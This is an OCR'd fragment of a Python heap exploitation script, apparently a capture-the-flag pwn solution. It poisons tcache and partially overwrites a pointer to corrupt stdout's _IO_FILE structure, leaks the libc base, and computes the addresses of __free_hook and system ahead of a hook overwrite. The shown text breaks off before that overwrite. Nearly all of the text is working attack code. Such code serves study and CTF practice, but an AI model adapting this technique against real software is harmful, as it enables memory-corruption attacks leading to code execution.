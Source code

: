 ```python
        c1 = ru("\n")[:-1]
        ru("Continued the baby: ! @ # $ % ^ & * ( ")
        c2 = ru("\n")[:-1]
        return c1,c2

    def free(idx):
        cmd(4)
        sla("\n", str(idx))

    def dd():
        if DEBUG:
            cmd = ""
            cmd += "b *%d\n" % (base+0x1585)
            cmd += "set $a=%d\n" % (base+0x4080)
            # cmd = 'set $a=%d\n'%(base+0x4060) # bullet_ptr[0x13]
            # cmd += "set $b=%d\n"%(base+0x4050) # bullet_list
            # cmd += "set $c=%d\n"%(base+0x4010) # remain size
            # cmd += "b *%d\n" % (base+0x167B) # break at free
            debug(cmd)

    for i in range(8):
        add(i, 0xa0, "ILoveC")

    # idx = 7, last

    for i in range(7):
        free(i)
    edit(6, "a"*16)
    free(6)


    cmd(2)
    sla("\n", str(6))
    sa("\n", '\xa0\x16')
    sleep(1)

    add(0, 0xa0, "ILoveC")

    cmd(1)
    try:
        sla("\n", str(1))
        sla("\n", str(0xa0))
        sa("\n", p64(0xfbad3887)+p64(0)*3+'\x00')
        libc_base = l64() + 0x1eb980 - 0x3d7300
    except:
        p.close()
        return 1

    free_hook = libc.symbols['__free_hook'] + libc_base
    system_addr = libc.symbols['system'] + libc_base
    arena_addr = 0x1ebbe0 + libc_base

    print('libc: ', hex(libc_base))

    free(6)
    cmd(2)
    sla("\n", str(6))
    sa("\n", p64(arena_addr)+p64(arena_addr))
    sleep(1)

    print("free_hook: ", hex(free_hook))
    print("system: ", hex(system_addr))

```